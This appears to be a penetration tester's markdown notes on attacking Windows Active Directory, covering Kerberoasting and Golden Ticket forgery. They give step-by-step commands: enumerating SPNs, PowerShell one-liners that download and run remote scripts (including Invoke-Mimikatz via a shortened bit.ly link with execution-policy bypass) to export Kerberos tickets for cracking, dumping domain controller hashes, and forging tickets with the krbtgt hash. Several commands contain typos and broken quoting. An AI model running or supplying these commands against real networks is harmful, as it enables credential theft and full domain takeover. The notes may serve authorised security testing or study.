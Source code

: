 Kerberoasting

* Any ticket can be requested by any user with kerberos, from the domain controller
* Those tickets are encrypted with the NTLM hash of the associated service user.
* If we can guess the password to teh associated service user's NTLM hash, then we now know the password to the actual service account
* Steps:
  * &#x20;List all SPN services. These are the service accounts for which we are going to pull all the kerberos tickets
    * \>setspn -T \[domain] -F -Q \*/\*
  * &#x20;Next we target either a single user SPN or pull all the user Kerberos tickets into our user's memory
    * Single target
      * \>powershell Add-Tpe -AssemblyName System.IdentityModel; New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArguementList “HTTP/\[hostname].\[domain].local”
    * All User tickets
      * \>powershell Add-Tpe -AssemblyName System.IdentityModel; IEX (New-Object Net.WebClient).DownloadString("https://githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1") | ForEach-Object {try{New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArguementList $\_.ServicePrincipalName}catch{}
    * &#x20;And the powersploit tool to automate this!
      * [https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/](https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/)
    * Now we have our tickets imported into memory and we need to extract them.
      * Mimikatz Kerberoast export:
      * \>powershell.exe -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://bit.ly/2qx4kuH'); Invoke-Mimikatz -Command ‘’'''''kerberos::list /export'''''''
      * Once extracted and on our victims machine and we can start cracking them!
        * use tgsrepcrack.p
{% endtab %}

{% tab title="Golden Ticket" %}
[AD-001 - Golden Ticket](https://pentestlab.blog/2018/04/09/golden-ticket/)

* Creating your own tickets to Auth to any server
* You can take the old krbtgt hash from the previous hash dump and promote yourself back to Domain admin, all with an unprivileged account
* A few notes on krbtgt:
  * Do not reset the system generated password, it could break the whole domain
  * Even if you change every password for every domain admin, you can still become a DA
  * You can create Users and Groups that do not exist within the Golden ticket
* What you need
  * Domain - on victim host type: whoami
  * Domain Admin user - On victim host type: net local group administrators /DOMAIN
  * Domain SID - whoami /user chop off the last dash and 4 digits
  * krbtgt - From previous hashdump, use the second half of the hash/the NTLM hash
* Process
  * Run Smbexec, choose hashdump, and dump the domain controller
  * A log file will be created with the domain hashes. The one we need is the second part of the krbtgt hash
  * Return to original shell
  * Drop into mimikatz 2.0
    * use kiwi
  * Create golden ticket
    * \>golden\_ticket\_create -u \[domain admin suername] -d \[domain] -k \[krbtgt hash] -s \[Domain SID] -t \[location to Drop Golden Ticket]
* Using the Golden ticket
  * Shell access with limited access
    * \>session -i
  * Load mimikatz
    * \>use kiwi
  * Check current Kerberos Tickets
    * \> kerberos\_ticket\_list
  * Purge all Kerberos Tickets
    * \>kerberos\_ticket\_purge